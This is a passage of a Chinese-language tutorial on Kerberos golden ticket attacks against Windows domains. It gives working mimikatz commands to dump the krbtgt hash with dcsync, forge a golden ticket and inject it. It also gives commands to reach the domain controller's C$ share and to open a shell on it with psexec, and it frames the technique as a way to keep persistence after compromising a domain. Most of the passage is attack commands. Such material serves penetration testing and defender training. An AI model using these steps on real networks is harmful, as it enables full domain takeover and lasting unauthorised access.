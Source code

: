 导入之后便可以成功访问域控WIN08的C盘根目录（还可以访问该域中的其他服务器）：

```
dir \\WIN08\c$
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220541-88c14d8e-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220541-88c14d8e-f279-1.png)

还可以使用微软的SysinternalsSuite工具包中的psexec.exe来获取WIN08的shell：

```
Psexec64.exe \\WIN08 cmd.exe
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220649-b1901d94-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220649-b1901d94-f279-1.png)

**PS：**WINXP与WIN2003均测试失败，mimikatz无法导入生成的TGT

### mimikatz生成

使用mimikatz生成黄金票据需要以下几点条件：

- 知道krbtgt的NTLM Hash或aes256
- 知道krbtgt的sid

该方法经常会用来做拿下域控后的权限维持，因为krbtgt账户的密码基本不会更改，即使域管的密码被修改krbtgt的密码也不会改变

首先假设我们此时已拿到域控权限，使用mimikatz查看krbtgt用户的信息：

```
privilege::debug
lsadump::dcsync /domain:centoso.com /user:krbtgt
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220709-bd41bcec-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220709-bd41bcec-f279-1.png)

拿到krbtgt的NTLM Hash和sid后，我们就可以在一台普通域服务器上生成黄金票据并导入：

```
kerberos::golden /user:<域管> /domain:<所属域名称> /sid:<krbtgt的sid> /krbtgt:<krbtgt的NTLM Hash> /ptt
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220729-c91f6bb8-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220729-c91f6bb8-f279-1.png)

也可以先将黄金票据生成为ticket.kirbi文件后再导入：

```
kerberos::golden /user:<域管> /domain:<所属域名称> /sid:<krbtgt的sid> /krbtgt:<krbtgt的NTLM Hash>
kerberos:ptt ticket.kirbi
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220755-d90d4f4a-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220755-d90d4f4a-f279-1.png)

查看本机已有的票据：

```
kerberos::list
```
